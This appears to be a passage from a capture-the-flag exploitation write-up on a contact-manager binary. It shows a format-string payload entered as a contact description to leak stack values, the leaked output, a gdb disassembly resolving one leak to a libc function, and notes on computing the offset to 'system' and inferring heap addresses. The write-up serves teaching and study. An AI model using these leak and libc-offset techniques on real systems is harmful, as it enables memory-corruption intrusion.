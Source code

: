 But we are still left with the problem of leaking some sort of address located in libc that we can apply some offset to to find the address of libc.

Well we do have a write primitive with our format string so let's see if that gives us anything interesting...

```bash
Menu:
1)Create contact
2)Remove contact
3)Edit contact
4)Display contacts
5)Exit
>>> 1
Contact info:
    Name: A
[DEBUG] Haven't written a parser for phone numbers; You have 10 numbers
    Enter Phone No: A
    Length of description: 100
    Enter description:
        %x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x
Menu:
1)Create contact
2)Remove contact
3)Edit contact
4)Display contacts
5)Exit
>>> 4
Contacts:
    Name: A
    Length 100
    Phone #: A
    Description: 8f3a008.f7614971.f776cff4.0.0.fffc5b08.8048c99.804b0a8.64.8f3a008.8f3a018
```

The second address looks pretty interesting, I wonder what it resolves to:

```nasm
gdb$ x/5i f7e6c971
   0xf7e6c971 <_IO_vfscanf+17>:    add    ebx,0x158683
   0xf7e6c977 <_IO_vfscanf+23>: sub    esp,0x22c
   0xf7e6c97d <_IO_vfscanf+29>: mov    esi,DWORD PTR [ebp+0x8]
   0xf7e6c980 <_IO_vfscanf+32>: mov    DWORD PTR [ebp-0x1b0],eax
   0xf7e6c986 <_IO_vfscanf+38>: mov    edi,DWORD PTR [ebp+0xc]
```

Too easy. So we can find the offset between `_IO_vfscanf+17` and `system` (actually making this writeup I realized that I fucked up the offset, I found the offset from `_IO_vfscanf` to `system` forgetting to subtract 17 from the offset :c. I got really frusted that it wasn't working so I bruteforced the offset and after 17 iterations it worked lol :3).

Also to cover all components of the exploit, the first address that we read off the stack in the format string `0x8f3a008` is actually the address of our phone number pointer which we know to be a heap address. Based on this address, we can actually determine where all other allocations will be made (by using a debugger and finding where things are allocated relative to our first phone number allocation).
